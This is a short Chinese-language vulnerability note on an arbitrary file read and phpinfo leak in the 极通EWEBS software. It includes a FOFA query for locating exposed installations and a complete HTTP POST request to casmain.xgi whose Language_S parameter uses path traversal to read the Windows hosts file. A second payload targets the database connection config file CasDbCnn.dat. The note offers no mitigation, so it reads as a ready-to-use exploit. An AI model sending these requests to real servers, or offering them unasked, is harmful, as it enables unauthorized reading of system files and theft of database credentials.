




## 极通EWEBS任意文件读取和phpinfo泄露

## 漏洞描述

> 极通EWEBS casmain.xgi 任意文件读取漏洞，攻击者通过漏洞可以读取任意文件，存在敏感信息泄露，其中含有配置文件信息以及phpinfo信息

## 漏洞影响

> 极通EWEBS

## FOFA

> app="新软科技-极通EWEBS"

## 漏洞复现

登录页面如下



漏洞请求包为

```
POST /casmain.xgi HTTP/1.1
Host: 
Content-Type: application/x-www-form-urlencoded
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7,zh-TW;q=0.6
Cookie: PHPSESSID=923b86fa90ce1e14c82d4e36d1adc528; CookieLanguageName=ZH-CN
Content-Length: 57

Language_S=../../../../windows/system32/drivers/etc/hosts
```



####然后可以访问 testweb.php 页面获取phpinfo信息，根据信息去读取文件内容





例如：

```
Language_S=../../Data/CONFIG/CasDbCnn.dat
```

